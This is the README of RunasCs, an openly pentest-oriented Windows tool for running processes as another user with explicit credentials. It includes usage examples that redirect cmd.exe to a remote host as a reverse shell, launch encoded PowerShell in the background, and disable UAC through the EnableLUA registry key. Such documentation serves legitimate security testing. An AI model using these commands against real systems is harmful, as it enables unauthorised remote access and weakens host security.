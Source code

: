 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, i.e. network logon 3 (no *UAC* limitations)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUser()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.3 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain. 
                            Default: """"
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserA
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: ""3""
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and cmd.exe
                            won't be used to spawn the process.
                            Default: ""120000""
    -p, --create-profile
                            if this flag is specified RunasCs will force the
                            creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            NOTE: this will leave some forensics traces
                            behind creating the user profile directory.
                            Compatible only with -f flags:
                                1 - CreateProcessWithTokenW
                                2 - CreateProcessWithLogonW

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe user1 password1 ""%COMSPEC% powershell -enc..."" -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
    Run a command simulating the /netonly flag of runas.exe 
        RunasCs.exe user1 password1 whoami -d domain -l 9
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 3 (*Network_Logon*). If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
